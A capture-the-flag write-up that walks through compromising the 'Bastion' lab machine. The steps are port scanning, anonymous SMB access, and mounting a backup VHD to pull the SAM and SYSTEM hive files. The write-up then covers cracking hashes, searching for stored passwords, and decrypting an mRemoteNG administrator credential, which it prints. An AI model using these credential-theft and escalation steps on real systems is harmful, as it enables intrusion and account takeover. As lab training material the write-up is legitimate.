

# Bastion

In this room we are going to attempt to get root in the **Bastion** machine which its theme is Windows Privilege Escalation!

Let's begin.

### Port Enumeration

Let's first start with a simple port enumeration command:

```
nmap <ip> -A -T4 -p-
```

> PORT      STATE SERVICE      VERSION
> **22/tcp    open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)**
> | ssh-hostkey: 
> |   2048 3a56ae753c780ec8564dcb1c22bf458a (RSA)
> |   256 cc2e56ab1997d5bb03fb82cd63da6801 (ECDSA)
> |_  256 935f5daaca9f53e7f282e664a8a3a018 (ED25519)
> 135/tcp   open  msrpc        Microsoft Windows RPC
> 139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
> **445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds**
> **5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)**
> |_http-server-header: Microsoft-HTTPAPI/2.0
> |_http-title: Not Found
> **47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)**
> |_http-server-header: Microsoft-HTTPAPI/2.0
> |_http-title: Not Found
> 49664/tcp open  msrpc        Microsoft Windows RPC
> 49665/tcp open  msrpc        Microsoft Windows RPC
> 49666/tcp open  msrpc        Microsoft Windows RPC
> 49667/tcp open  msrpc        Microsoft Windows RPC
> 49668/tcp open  msrpc        Microsoft Windows RPC
> 49669/tcp open  msrpc        Microsoft Windows RPC
> 49670/tcp open  msrpc        Microsoft Windows RPC
> Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
>
> Host script results:
> | smb-os-discovery: 
> |   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
> |   Computer name: Bastion
> |   NetBIOS computer name: BASTION\x00
> |   Workgroup: WORKGROUP\x00
> |_  System time: 2023-07-13T14:29:14+02:00
> | smb2-security-mode: 
> |   311: 
> |_    **Message signing enabled but not required**
> |_clock-skew: mean: -39m59s, deviation: 1h09m15s, median: 0s
> | smb-security-mode: 
> |   account_used: guest
> |   authentication_level: user
> |   challenge_response: supported
> |_  message_signing: disabled (dangerous, but default)
> | smb2-time: 
> |   date: 2023-07-13T12:29:16
> |_  start_date: 2023-07-13T12:10:38

From the output of the nmap scan we performed we know now that the machine has several RPC ports, two HTTP ports, SMB and SSH.

Since both RPC ports and SSH are hard to exploit let us move on to HTTP and SMB. 

### HTTP

In this machine HTTP also proved itself to be a dead end, since both ports returned a 404 and gobuster returned not even a single new directory to explore.

### Foothold

Thus, i set my sights on SMB. I started by enumerating the shares on the machine:

```
smbclient -L //10.10.10.134 -N
```


Alternatively, you can also use smbmap and provide a random username to get the same information plus what permissions we have:


The **backups** directory seems like an interesting one to explore:

```
smbclient //10.10.10.134/Backups -N
```

A deep inspection let's us know that:

- We should not download the VHD images since they are too big and the VPN is slow.
- There are two VHD(Virtual Hard Disk) images and other XML files related to Windows.

This means we are likely to be able to mount the VHD files if we can directly interact with them. Downloading them is not an options, hence we are going to mount the Windows share in a local directory:

```
mount -t cifs -o 'rw,username=guest' //10.10.10.134/Backups /mnt/bastion
#unmount with umount
```

Great, now we can mount the VHD into another folder:

```
guestmount --add "/mnt/bastion/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd" --inspector --ro "/home/kali/Desktop/bastion" -v

#unmount with guestunmount
```

After mounting, opening the folder will showcase a complete backup of the machine at another point in time. Having access to every file means  we are able to extract both the SAM and SYSTEM files from the machine under:

-  /Windows/System32/config/SAM
-  /Windows/System32/config/SYSTEM

Having downloaded both files we can try to dump the local account hashes from them using `secretsdump`:


Let's try to crack them using Hashcat:

```
hashcat -m 1000 hashes.txt rockyou.txt
```


```
ssh L4mpje@10.10.10.134
```

Great we are in!


### Privilege

In order to escalate privileges we have to perform some manual enumeration. Inside the Program Files x86 folder we an installed software called `mRemoteNG`. 

```
findstr /si password *.txt *.ini *.config
```

The command above let's us find about about files containing  the word password with the designated extensions.



Great! We now know there are unencryptted credentials being stored someewhere  on the machcine.

```
dir /s "confCons.xml"
```

As we can see the file is stored under: `C:\Users\L4mpje\AppData\Roaming\mRemoteNG`

After examining the file we can see that there is indeed a credential pair for Administrator:

```
aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
```

Nonetheless it seems to be encrypted.  A quick search online points to a github repository with python code that decrypts these passwords: https://github.com/haseebT/mRemoteNG-Decrypt.

```
python mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
```

Login using SSH or psexec as root!
